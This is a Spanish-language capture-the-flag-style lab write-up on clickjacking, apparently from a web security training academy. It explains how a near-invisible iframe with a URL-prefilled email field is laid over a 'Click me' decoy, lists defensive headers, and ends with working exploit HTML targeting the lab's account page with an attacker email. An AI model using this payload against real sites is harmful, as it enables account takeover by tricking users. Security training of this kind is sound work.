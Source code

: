 Este laboratorio profundiza en la técnica de clickjacking permitiendo que el atacante modifique los datos del formulario a través de parámetros en la URL. En este caso, el objetivo es engañar al usuario para que pulse sobre el botón de actualizar correo electrónico, el cual ha sido rellenado automáticamente con una dirección maliciosa pasada por parámetro.

El ataque se basa en superponer un iframe con el formulario de cuenta sobre un botón señuelo que diga Click me. La URL del iframe incluye un parámetro email con el valor que se desea establecer. De este modo, el formulario se precompleta sin necesidad de interacción directa con el campo.

El usuario, al hacer clic en el señuelo, en realidad está enviando el formulario del iframe con el nuevo correo ya cargado. Este tipo de ataque demuestra que incluso sin vulnerabilidades en el backend, una interfaz mal protegida puede ser manipulada visualmente para obtener acciones críticas sin el conocimiento del usuario.

Es clave proteger estos formularios con cabeceras como X-Frame-Options o Content-Security-Policy y evitar la modificación de campos sensibles mediante parámetros URL.

Solucion
lo mismo que el anterior laboratorio solamente que esta vez le cambiamos el correo

<style>
    iframe {
        position:relative;
        width:500px;
        height: 600px;
        opacity: 0.0001;
    }
    div {
        position:absolute;
        top: 450px;
        left: 100px;
    }
</style>
<div>Click Me</div>
<iframe src="https://0ab600c20426b97382bbec0a00c60034.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

